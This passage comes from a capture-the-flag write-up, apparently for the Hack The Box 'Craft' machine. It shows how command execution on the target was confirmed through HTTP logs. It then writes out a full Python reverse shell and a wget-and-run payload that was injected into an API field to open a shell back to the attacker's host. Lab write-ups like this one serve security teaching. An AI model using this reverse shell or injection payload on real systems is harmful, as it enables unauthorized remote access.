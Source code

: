 ```
10.10.10.110 - - [04/Jan/2020 11:55:31] code 404, message File not found
10.10.10.110 - - [04/Jan/2020 11:55:31] "GET //opt/app HTTP/1.1" 404 -
```

This shows that the `pwd` on the remote system is `/opt/app`. Changing the `pwd` command in `test.py` to `ls` shows that this directory contains the Craft API files found in the Gogs repository.

```
10.10.10.110 - - [04/Jan/2020 11:58:58] code 404, message File not found
10.10.10.110 - - [04/Jan/2020 11:58:58] "GET /app.py HTTP/1.1" 404 -
```

Using this information it is likely that a Python file can be executed on the remote system to gain access. A Python reverse shell `shell.py` was created on the local (attacking) system.

```python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.22",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After starting a `nc` listener on the local system with `nc -lvp 4444` and with the Python HTTP server still running, the `shell.py` file was transferred to the remote target system and executed by changing the `brew_dict['abv']` payload within `test.py` to `wget http://10.10.14.22/shell.py -O shell.py && python ./shell.py`.

![caught_shell.gif](/assets/images/htb/craft/caught_shell.gif)
